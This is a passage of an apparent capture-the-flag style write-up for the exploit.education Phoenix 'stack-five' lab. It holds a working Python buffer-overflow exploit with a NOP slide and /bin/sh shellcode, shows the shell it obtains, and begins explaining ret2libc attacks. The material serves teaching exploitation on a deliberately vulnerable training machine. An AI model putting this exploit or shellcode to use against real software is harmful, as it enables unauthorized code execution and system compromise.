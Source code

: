 We notice that the program will jump to `RRQQ` (`0x52525151`).

We will then prepare a payload according to this structure:  
`{buffer}{return_address}{nop_slide}{shellcode}` (where **return_address** should point to the **nop_slide**).

```python
import struct

# Fill buffer until %RIP
buffer_data  = "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG"
buffer_data += "HHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNN"
buffer_data += "OOOOOOOOPPPPPPPPQQQQQQQQ"

# Encode 64 bit address
rip = struct.pack("I", 0xffffe4e8+120)
rip_2 = struct.pack("Q", 0x7fff);

# NOP slide
nop = "\x90"*200

# Shell code, creating a /bin/sh process
payload      = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7"
payload     += "\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

print buffer_data + rip + rip_2 + nop + payload
```

Then we execute our payload:

```
$ (python ~/test.py ; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
uname -a
Linux host 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Congratulation !

## Stack Protection

### Return to libc

In order to prevent buffer overflow exploits, stack and heap memory spaces can be marked (or not) as executable.

To overcome this kind of limitation, you can proceed a **ret2libc** attack. This kind of attack rely on the fact that some binary instructions are already loaded with your program, in a dedicated executable memory section.

In order to exploit such behavior, you have to compose the stack as described bellow & redirect the instruction pointer to the system address:

```
+-----------------+
|     PREVIOUS    |
|  STACK   FRAME  |
+-----------------+ 
| RETURN  POINTER | <- containing the address of the system function in libc
+-----------------+ 
|  PREVIOUS  RBP  | <- can be randomized
+-----------------+ 
|      DATA       | <- containing the address of "/bin/sh" in libc
+-----------------+ 
```
